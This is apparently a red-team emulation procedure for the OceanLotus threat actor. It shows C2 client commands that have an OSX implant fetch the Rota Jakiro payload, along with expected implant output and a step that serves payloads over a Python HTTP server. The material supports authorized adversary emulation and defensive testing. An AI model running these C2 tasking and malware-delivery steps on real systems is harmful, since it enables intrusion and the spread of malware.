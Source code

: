 OceanLotus downloads Rota Jakiro to the macOS host in the
`/Users/hpotter/Library/WebKit` folder (the execution folder for OSX.OceanLotus) as
`osx.download`. OSX.OceanLotus then uses SCP to transfer Rota Jakiro to the `\tmp`
folder of the Linux host. Using SSH, OSX.OceanLotus changes Rota Jakiro to an executable
and executes Rota Jakiro on the Linux host.

---

### 👾 Red Team Procedures

1. Task OceanLotus to download Rota Jakiro to the macOS Host
   ```
   ./evalsC2client.py --set-task b6dbd70f203515095d0ca8a5ecbb43f7 '{"cmd":"OSX_download_file", "payload":"rota"}'
   ```
   Expected Output:
   ```
   [SUCCESS] 2023/08/24 19:26:19 Successfully set task for session: b6dbd70f203515095d0ca8a5ecbb43f7
   ...
   [INFO] 2023/08/24 18:53:21 Fetching requested file for task:  rota
   ```

2. Verify the file downloaded
   ```
   ./evalsC2client.py --set-task b6dbd70f203515095d0ca8a5ecbb43f7 '{"cmd":"OSX_run_cmd", "arg":"ls -la /Users/hpotter/Library/WebKit/osx.download"}'
   ```
   Exepcted Output:
   ```
   [SUCCESS] 2023/08/24 19:28:06 Successfully set task for session: b6dbd70f203515095d0ca8a5ecbb43f7
   [INFO] 2023/08/24 19:28:20 New task received for UUID:  b6dbd70f203515095d0ca8a5ecbb43f7
   [INFO] 2023/08/24 19:28:20 Sending new task to implant: b6dbd70f203515095d0ca8a5ecbb43f7
   [INFO] 2023/08/24 19:28:20 Received task output for session:  b6dbd70f203515095d0ca8a5ecbb43f7
   [Task] 2023/08/24 19:28:20 -rw-r--r--  1 hpotter  VISERION\Domain Users  30856 Aug 24 19:27 /Users/hpotter/Library/WebKit/osx.download

   [SUCCESS] 2023/08/24 19:28:20 Successfully set task output.
   ```
   💡 All files are downloaded to the directory where the OSX implant binary is running,
   `/Users/hpotter/Library/WebKit`, as `osx.download`. The application bundle drops the
   OSX implant into `/Users/hpotter/Library/WebKit`.

   <details>
      <summary>Troubleshooting</summary>

      On the C2 server start a simple HTTP server

      ```
      cd /opt/oceanlotus/Resources/payloads
      ```

      <br>

      ```
      python3 -m http.server
      ```

